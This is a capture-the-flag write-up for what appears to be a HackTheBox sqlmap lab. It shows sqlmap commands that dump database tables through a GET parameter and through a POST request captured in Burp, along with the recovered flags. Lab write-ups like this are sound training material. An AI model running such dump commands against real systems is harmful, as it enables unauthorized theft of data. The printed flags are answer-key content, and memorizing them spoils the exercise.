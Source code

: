 ## Challenge 1

What's the contents of table flag2? (Case #2) 

## Solution 1

On the page there are a number of cases.

I click on `Case1` and in there it is a button `click here` - this sends me to a page where the url is `http://94.237.54.116:53907/case1.php?id=1` which tells me that it is a `GET` request.

So I put the following sqlmap command:

```sh
sqlmap -u 'http://94.237.54.116:53907/case1.php?id=1' --dump
```

And I see the result:

```sh
Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
```

But, I'm interested on the flag2 so it should be case 2. There I can put a number and submit, but the url remains `http://94.237.54.116:53907/case2.php`, so it should be a POST request. I send this request to BURP and copy the request to a file.

Then I run the sqlmap command:
```sh
sqlmap -r case2.txt --batch --dump
```

and I got the result, which is `HTB{700_much_c0n6r475_0n_p057_r3qu357}`.